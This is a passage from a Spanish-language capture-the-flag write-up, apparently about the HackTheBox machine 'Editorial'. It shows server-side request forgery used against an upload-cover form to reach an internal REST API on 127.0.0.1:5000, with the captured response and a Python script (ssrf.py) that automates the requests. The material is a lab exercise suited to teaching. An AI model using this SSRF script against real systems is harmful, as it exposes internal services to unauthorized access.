 
Ahora, si intentamos hacer peticiones a la `127.0.0.1` en busca de SSRF, especificamente a puertos internos comunes como el `8000`, `8080`, `3000`... etc. encontraremos algo en el `5000`:

```bash
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Tue, 15 Oct 2024 21:13:44 GMT
< Content-Type: application/octet-stream
< Content-Length: 911
< Connection: keep-alive
< Content-Disposition: inline; filename=ddc52f4b-ab4d-454d-b821-e35d4164b4b6
< Last-Modified: Tue, 15 Oct 2024 21:13:34 GMT
< Cache-Control: no-cache
< ETag: "1729026814.0678535-911-61348040"
< 
{"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}
```

Se ve como un REST interno. Podemos scriptear fácilmente esto para no tener que andar copiando y pegando la URI que nos devuelva:

```python
import requests
import sys

def get_ssrf(endpoint):
     
    data = {
        "bookurl": (None, f"http://127.0.0.1:5000/{endpoint}"),
        "bookfile": ("uwu.conf", "asd", "text/plain")
    }
    
    resp = requests.post("http://editorial.htb/upload-cover", files=data)
    # Now fetch the new link and print the contents on the screen
    ssrf_resp = requests.get(f"http://editorial.htb/{resp.text}")
    print(ssrf_resp.text)


if __name__ == "__main__":
    if len(sys.argv) < 2 :
        print(f"Usage: {sys.argv[0]} <endpoint>")
        exit(1)

    get_ssrf(sys.argv[1])
```
{: file="ssrf.py" }
